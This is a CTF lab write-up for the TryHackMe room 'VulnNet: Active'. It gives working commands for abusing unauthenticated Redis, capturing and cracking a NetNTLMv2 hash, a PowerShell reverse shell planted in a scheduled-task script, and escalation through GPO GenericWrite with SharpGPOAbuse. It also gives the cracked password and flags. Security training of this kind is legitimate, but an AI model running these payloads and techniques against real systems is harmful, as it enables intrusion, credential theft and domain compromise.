

# TryHackMe — VulnNet: Active

**Room:** VulnNet: Active
**Difficulty:** Medium
**Operating System:** Windows
**Made by:** @SkyWaves

---

## 

---

## Context

VulnNet Entertainment had a bad time with their previous network which suffered multiple breaches. Now they moved their entire infrastructure and hired you again as a core penetration tester. Your objective is to get full access to the system and compromise the domain.

---

## Phase 1 — Reconnaissance

### Start with Nmap

This time `-p-` to scan all 65535 ports. On a medium-difficulty room you never know what is hiding on a high port.

```bash
┌──(kali㉿kali)-[~/Writeups/VulnNet: Active]
└─$ nmap -Pn -p- -A -T4 -vv -oN nmap.txt 10.114.179.221
```

```
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
6379/tcp  open  redis         Redis key-value store 2.8.2402
9389/tcp  open  mc-nmf        .NET Message Framing
49666/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49670/tcp open  msrpc         Microsoft Windows RPC
49677/tcp open  msrpc         Microsoft Windows RPC
...

Host script results:
| smb2-security-mode:
|   3.1.1:
|_    Message signing enabled and required
```

### Reading the Scan

The first step in analyzing a Windows scan is identifying what’s **missing**, not just what’s exposed. In this case, several key services are absent:

- **Port 88 (Kerberos)** — not open, indicating this host is very **unlikely** to be the **Domain Controller**.
- **Ports 3268/3269 (Global Catalog)** — also absent, further confirming it is not a DC.
- **Ports 389/636 (LDAP)** — closed, meaning LDAP-based enumeration is **not possible** here (e.g., BloodHound ingestion or `ldapsearch` for user enumeration).

And reading the SMB output:

- **`Message signing enabled and required`** — **SMB relay** is completely off the table.
- **SMB 3.1.1** — EternalBlue and every other SMBv1 exploit is gone.

> So before even touching a tool, we already know: no DCSync, no Kerberoasting, no AS-REP Roasting, no relay, no legacy SMB exploits. Classic AD enumeration is heavily limited by design here.

What immediately stands out instead is **port 6379 — Redis 2.8.2402**. That version number is old. Very old. And it is sitting wide open. That is going to be our angle.

---

## Phase 2 — SMB Enumeration (Confirming the Null Session Story)

Let's see what we can do with a null session using enum4linux:

```bash
┌──(kali㉿kali)-[~/Writeups/VulnNet: Active]
└─$ enum4linux-ng 10.114.179.221 -A
```

```
[+] Found domain information via SMB
NetBIOS computer name: VULNNET-BC3TCK1
NetBIOS domain name: VULNNET
DNS domain: vulnnet.local
FQDN: VULNNET-BC3TCK1SHNQ.vulnnet.local
Derived membership: domain member

[+] Server allows authentication via username '' and password ''
[-] Could not establish guest session: STATUS_LOGON_FAILURE

[-] Could not find users via 'querydispinfo': STATUS_ACCESS_DENIED
[-] Could not find users via 'enumdomusers': STATUS_ACCESS_DENIED
[-] Could not get groups: STATUS_ACCESS_DENIED
[+] Found 0 shares for user '' with password ''
[-] SMB connection error: STATUS_ACCESS_DENIED
```

Immediately adding to `/etc/hosts`:

```
10.114.179.221    VULNNET-BC3TCK1SHNQ.vulnnet.local  vulnnet.local  VULNNET-BC3TCK1
```

Null session **partially works**, anonymous bind succeeds on SMB/RPC, leaking the domain name, computer name, and domain SID. But anything deeper : users, groups, shares, policies all come back `STATUS_ACCESS_DENIED`.
Typical behavior when **SMB signing is required** and there is **no valid session key** to back up **the higher-privilege RPC calls**.

Also worth noting: **domain member** is confirmed. This is not a DC. It is a workstation or member server sitting inside the `VULNNET` domain. That rules out any DC-specific attacks against this IP (e.g., DCSync).

Let's try RID brute-forcing while we're at it:

```bash
┌──(kali㉿kali)-[~/Writeups/VulnNet: Active]
└─$ nxc smb 10.114.179.221 -u '' -p '' --rid-brute 2000
SMB  10.114.179.221  445  VULNNET-BC3TCK1  [+] vulnnet.local\: (Null Auth:True)
SMB  10.114.179.221  445  VULNNET-BC3TCK1  [-] Error: STATUS_ACCESS_DENIED
```

Same story. RID enumeration needs `POLICY_LOOKUP_NAMES` and `SAMR_ENUM_USERS` rights, Windows explicitly denies those to anonymous tokens. No user list this way.

---

## Phase 3 — Redis: Unauthenticated Access & Arbitrary File Write

### What is Redis and Why We Care

Redis (Remote Dictionary Server) is an in-memory key-value store. Think of it as a notebook for applications. The dangerous part is not the data it stores, it is the fact that Redis can **save its in-memory data to a file on disk** (called an RDB dump). And because this version has no password and no access controls, **we can tell Redis exactly where to save that file, what to call it, and what to put in it**.

That is an arbitrary file write primitive, and we control it entirely.

Connect first:

```bash
┌──(kali㉿kali)-[~/Writeups/VulnNet: Active]
└─$ redis-cli -h 10.114.179.221
```

Let's dump the full config and see what we are working with:

```
10.114.179.221:6379> CONFIG GET *
...
  3) "requirepass"
  4) ""                        <- no password, wide open
...
103) "dir"
104) "C:\\Users\\enterprise-security\\Downloads\\Redis-x64-2.8.2402"
...

10.114.179.221:6379> KEYS *
(empty array)
```

Two critical things from this output:

- `requirepass` is empty — no authentication required.
- `dir` is `C:\Users\enterprise-security\Downloads\...` — the Redis service is running as the user **enterprise-security**. That user's folder structure is accessible to the Redis process.

The arbitrary file write is fully confirmed. Redis can now write any file we want, anywhere the `enterprise-security` account has write permissions.

### Writing to the Startup Folder (Didn't Work but worth mentioning)

The most obvious abuse target here: the **Windows Startup folder**.
Any `.bat` file placed in `C:\Users\enterprise-security\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup` will execute automatically when the service account logs in or on reboot.

Run these one by one inside `redis-cli`:

```
CONFIG SET dir "C:\\Users\\enterprise-security\\AppData\\Roaming\\Microsoft\\Windows\\Start Menu\\Programs\\Startup"
CONFIG SET dbfilename "update.bat"
SET payload "@echo off
net user new_user Password123! /add
net localgroup administrators new_user /add"
SAVE
```

Let's validate the new user made it:

```bash
┌──(kali㉿kali)-[~/Writeups/VulnNet: Active]
└─$ crackmapexec smb 10.114.179.221 -u new_user -p Password123!
SMB  10.114.179.221  445  VULNNET-BC3TCK1  [-] vulnnet.local\Taher:Password123! STATUS_LOGON_FAILURE
```

The `.bat` did not execute — this lab machine has **no auto-restart** to trigger the Startup payload. Dead end for now, but the file write primitive is real. We just need a better trigger.

---

## Phase 4 — Redis Lua: Reading Files and Leaking the User Flag

After doing some research, I found something interesting about this old Redis version. Redis 2.8 has a built-in **Lua scripting engine** accessible via the `EVAL` command.
The Lua `dofile()` function tries to read and execute a file as Lua code. When the file is not valid Lua, Redis throws an error.
And that error message **leaks the first line of the file**.

We know the Redis service runs as `enterprise-security`, and we know roughly where user flags live. Let's try it:

```
10.114.179.221:6379> EVAL "dofile('C:/Users/enterprise-security/Desktop/user.txt')" 0
(error) ERR Error running script: @user_script:1: C:/Users/enterprise-security/Desktop/user.txt:1: malformed number near '3eb176aee96432d5b100bc93580b291e'
```

**Flag 1:** `THM{3eb176aee96432d5b100bc93580b291e}`

No shell needed. The Lua sandbox in this old version is weak, `dofile()` reads local files freely and the error message does the work for us.

---

## Phase 5 — Redis Lua: Coercing a NetNTLMv2 Hash

Same `dofile()` trick, but this time instead of pointing at a local file we point at a **UNC path** on our machine.
When Redis tries to open `\\our_kali_ip\something`, Windows automatically attempts to authenticate to that SMB share using **the current user's credentials NTLM authentication**. Responder catches the hash in flight.

Set up Responder first:

```bash
┌──(kali㉿kali)-[~/Writeups/VulnNet: Active]
└─$ sudo responder -I tun0
```

Then back in redis-cli, trigger the UNC connection:

```
10.114.179.221:6379> EVAL "dofile('//192.168.129.39/something')" 0
(error) ERR Error running script: @user_script:1: cannot open //192.168.129.39/something: Permission denied
```

The error is expected — what matters is what Responder caught:

```
[SMB] NTLMv2-SSP Client   : 10.114.179.221
[SMB] NTLMv2-SSP Username : VULNNET\enterprise-security
[SMB] NTLMv2-SSP Hash     : enterprise-security::VULNNET:d13c2d328e0bf186:13E72171C014BE42117E6CA67F5A5B98:0101000000000000...
```

**Important note:** This is a **NetNTLMv2 challenge-response hash**, not an NTLM hash. You cannot Pass-the-Hash with it. And since SMB signing is required on this domain, relay is also off the table. The only move is to crack it offline.

### Cracking the Hash

```bash
┌──(kali㉿kali)-[~/Writeups/VulnNet: Active]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt enterprise.hash
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 5 OpenMP threads

sand_0873959498  (enterprise-security)
1g 0:00:00:01 DONE — 2676Kp/s
```

Password for `enterprise-security`: `sand_0873959498`

---

## Phase 6 — SMB Enumeration & Scheduled Task Abuse

### Enumerating Shares

We have valid credentials now. Let's see what we can reach:

```bash
┌──(kali㉿kali)-[~/Writeups/VulnNet: Active]
└─$ crackmapexec smb 10.114.179.221 -u enterprise-security -p sand_0873959498 --shares
SMB  10.114.179.221  445  VULNNET-BC3TCK1  [+] vulnnet.local\enterprise-security:sand_0873959498
SMB  10.114.179.221  445  VULNNET-BC3TCK1  Share           Permissions   Remark
SMB  10.114.179.221  445  VULNNET-BC3TCK1  -----           -----------   ------
SMB  10.114.179.221  445  VULNNET-BC3TCK1  ADMIN$                        Remote Admin
SMB  10.114.179.221  445  VULNNET-BC3TCK1  C$                            Default share
SMB  10.114.179.221  445  VULNNET-BC3TCK1  Enterprise-Share  READ
SMB  10.114.179.221  445  VULNNET-BC3TCK1  IPC$            READ          Remote IPC
SMB  10.114.179.221  445  VULNNET-BC3TCK1  NETLOGON        READ          Logon server share
SMB  10.114.179.221  445  VULNNET-BC3TCK1  SYSVOL          READ          Logon server share
```

Since RDP and WinRM are disabled, and we do not have admin rights to write to `ADMIN$`, tools like `psexec.py` and `wmiexec.py` are off the table. But that `Enterprise-Share` is interesting. Let's look inside:

```bash
┌──(kali㉿kali)-[~/Writeups/VulnNet: Active]
└─$ smbclient //10.114.179.221/Enterprise-Share -U vulnnet.local/enterprise-security%sand_0873959498
smb: \> ls
  PurgeIrrelevantData_1826.ps1    A    69    Wed Feb 24 01:33:18 2021

smb: \> get PurgeIrrelevantData_1826.ps1
```

```bash
┌──(kali㉿kali)-[~/Writeups/VulnNet: Active]
└─$ cat PurgeIrrelevantData_1826.ps1
rm -Force C:\Users\Public\Documents\* -ErrorAction SilentlyContinue
```

This looks like part of a scheduled task that periodically clears the Documents folder. Let's try and abuse it.

### Share Permissions vs NTFS Permissions

CrackMapExec only showed **READ** on `Enterprise-Share` — but that is only the **share-level ACL**. There are actually two layers of permissions:

1. **Share permissions** — what the tool sees: READ.
2. **NTFS permissions** on the actual folder behind the share — can have Full Control or Modify for the same user, independently.

Let's test if we can actually write:

```bash
┌──(kali㉿kali)-[~/Writeups/VulnNet: Active]
└─$ echo 'test' > test

┌──(kali㉿kali)-[~/Writeups/VulnNet: Active]
└─$ smbclient //10.114.179.221/Enterprise-Share -U vulnnet.local/enterprise-security%sand_0873959498
smb: \> put test
putting file test as \test
smb: \> ls
  PurgeIrrelevantData_1826.ps1    A    69
  test                            A     5
```

**We can write**. The NTFS permissions are more permissive than the share ACL suggested.
Now let's replace that `.ps1` with **our own version containing a reverse shell**.

### Injecting the Reverse Shell

from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Methodology%20and%20Resources) CheatSheet:

```bash
┌──(kali㉿kali)-[~/Writeups/VulnNet: Active]
└─$ cat > PurgeIrrelevantData_1826.ps1 << 'EOF'
$client = New-Object System.Net.Sockets.TCPClient('192.168.129.39',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
EOF
```

Upload it over the legitimate file:

```bash
┌──(kali㉿kali)-[~/Writeups/VulnNet: Active]
└─$ smbclient //10.114.179.221/Enterprise-Share -U vulnnet.local/enterprise-security%sand_0873959498
smb: \> put PurgeIrrelevantData_1826.ps1
putting file PurgeIrrelevantData_1826.ps1 as \PurgeIrrelevantData_1826.ps1
```

Start the listener and wait for the scheduled task to fire:

```bash
┌──(kali㉿kali)-[~/Writeups/VulnNet: Active]
└─$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [192.168.129.39] from (UNKNOWN) [10.114.179.221] 49745

PS C:\Users\enterprise-security\Downloads> whoami
vulnnet\enterprise-security

PS C:\Users\enterprise-security\Desktop> type C:\Users\enterprise-security\Desktop\user.txt
THM{3eb176aee96432d5b100bc93580b291e}
```

Shell confirmed. Flag 1 confirmed again via the filesystem this time.

---

## Phase 7 — BloodHound & GPO Abuse

Now we need to get from `enterprise-security` (standard domain user) to `Administrator`. Let's map the domain first.

### Uploading and Running SharpHound

Upload SharpHound via the share:

```bash
┌──(kali㉿kali)-[/opt]
└─$ smbclient //10.114.179.221/Enterprise-Share -U vulnnet.local/enterprise-security%sand_0873959498
smb: \> put SharpHound.ps1
putting file SharpHound.ps1 as \SharpHound.ps1 (1573.5 kB/s)
```

On the reverse shell:

```powershell
PS C:\Enterprise-Share> Import-Module .\SharpHound.ps1
PS C:\Enterprise-Share> Invoke-BloodHound -CollectionMethod All -OutputDirectory C:\Enterprise-Share
PS C:\Enterprise-Share> ls

    Directory: C:\Enterprise-Share

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        4/19/2026   9:40 AM          11407 20260419094020_BloodHound.zip
-a----        4/19/2026   9:24 AM            504 PurgeIrrelevantData_1826.ps1
-a----        4/19/2026   9:35 AM        1308348 SharpHound.ps1
```

Download the zip:

```bash
┌──(kali㉿kali)-[~/Writeups/VulnNet: Active]
└─$ smbclient //10.114.179.221/Enterprise-Share -U vulnnet.local/enterprise-security%sand_0873959498
smb: \> prompt off
smb: \> get 20260419094020_BloodHound.zip
```

Start neo4j and open BloodHound:

```bash
┌──(kali㉿kali)-[~/Writeups/VulnNet: Active]
└─$ sudo neo4j start

┌──(kali㉿kali)-[~/Writeups/VulnNet: Active]
└─$ /opt/BloodHound-linux-x64/BloodHound --no-sandbox
```

Upload the zip, mark `enterprise-security` as owned, and look for the **Shortest Path to Domain Admins** from owned principals.

## 

The graph tells a clear story: `enterprise-security` has **GenericWrite** over the GPO `SECURITY-POL-VN`, which is linked to the `VULNNET.LOCAL` domain. The `USERS` container is inside the domain and contains `DOMAIN ADMINS`.

**GenericWrite on a GPO** means we can modify that GPO — and since GPOs apply policy to machines and users in scope, we can inject a malicious scheduled task that will execute on affected systems. This is a full domain-level privilege escalation path.

BloodHound's built-in **help text** on GenericWrite over GPOs confirms it:

```
With GenericWrite over a GPO, you may make modifications to that GPO which will then apply to the users and computers affected by the GPO.
Use an evil policy that allows item-level targeting, such as a new immediate scheduled task.
```

### Exploiting GenericWrite with SharpGPOAbuse

There is a tool built exactly for this: [SharpGPOAbuse](https://github.com/FSecureLABS/SharpGPOAbuse).

Download and upload it via the share:

```bash
┌──(kali㉿kali)-[~/Writeups/VulnNet: Active]
└─$ wget https://github.com/byronkg/SharpGPOAbuse/releases/download/1.0/SharpGPOAbuse.exe

┌──(kali㉿kali)-[~/Writeups/VulnNet: Active]
└─$ smbclient //10.114.179.221/Enterprise-Share -U 'vulnnet.local/enterprise-security%sand_0873959498' -c 'put SharpGPOAbuse.exe'
```

On the reverse shell, we add a new **Computer Immediate Task** to the `SECURITY-POL-VN` GPO that adds our user to the local Administrators group:

```powershell
PS C:\Enterprise-Share> .\SharpGPOAbuse.exe --AddComputerTask --TaskName "Debug" --Author vulnnet\administrator --Command "cmd.exe" --Arguments "/c net localgroup administrators enterprise-security /add" --GPOName "SECURITY-POL-VN"

[+] Domain = vulnnet.local
[+] Domain Controller = VULNNET-BC3TCK1SHNQ.vulnnet.local
[+] Distinguished Name = CN=Policies,CN=System,DC=vulnnet,DC=local
[+] GUID of "SECURITY-POL-VN" is: {31B2F340-016D-11D2-945F-00C04FB984F9}
[+] Creating file \\vulnnet.local\SysVol\vulnnet.local\Policies\{...}\Machine\Preferences\ScheduledTasks\ScheduledTasks.xml
[+] versionNumber attribute changed successfully
[+] The version number in GPT.ini was increased successfully.
[+] The GPO was modified to include a new immediate task. Wait for the GPO refresh cycle.
[+] Done!
```

Now force the GPO refresh immediately instead of waiting:

```powershell
PS C:\Enterprise-Share> gpupdate /force
Updating policy...

Computer Policy update has completed successfully.
User Policy update has completed successfully.
```

Confirm we are now in the Administrators group:

```powershell
PS C:\Enterprise-Share> net user enterprise-security

Local Group Memberships      *Administrators
Global Group memberships     *Domain Users
The command completed successfully.
```

We are local admin.

---

## Phase 8 — Grabbing the Final Flag

Our current reverse shell still has the old security token from before the privilege escalation — the group memberships are cached from the previous logon session. Rather than waiting or spinning up a new shell, we can directly access the `C$` administrative share with our new admin rights and pull the flag:

```bash
┌──(kali㉿kali)-[~/Writeups/VulnNet: Active]
└─$ smbclient '//10.114.179.221/C$' -U 'vulnnet.local/enterprise-security%sand_0873959498' -c 'cd Users\Administrator\Desktop; get system.txt; exit'

┌──(kali㉿kali)-[~/Writeups/VulnNet: Active]
└─$ cat system.txt
THM{d540c0645975900e5bb9167aa431fc9b}
```

**Flag 2 (System):** `THM{d540c0645975900e5bb9167aa431fc9b}`

---

## Closing Thoughts

What makes this room interesting is the attack chain starts somewhere you might not expect to see in an AD engagement — a forgotten Redis instance with no password sitting next to a bunch of SMB services. It is a good reminder that AD hardening does not mean much if there is an unauthenticated service running on the same box that can write arbitrary files and leak credentials via Lua scripting.

The GPO abuse path at the end is also worth studying. **GenericWrite on a GPO is easily as dangerous as GenericAll on a user** — you are not modifying a single account, you are pushing policy to **every computer object in scope**.
In a real environment that could mean full domain compromise from a single user-level permission misconfiguration, and it is the kind of edge that gets overlooked in permission audits because it lives in **Group Policy rather than user/group ACLs**.

Thanks for reading.

---

_Raw .md file available on GitHub: [https://github.com/MohamedTaherBorgi/Writeups](https://github.com/MohamedTaherBorgi/Writeups)_

---

**Tags:** `TryHackMe` `Active Directory` `Redis` `NetNTLM` `Responder` `BloodHound` `GenericWrite` `GPO Abuse` `SharpGPOAbuse`
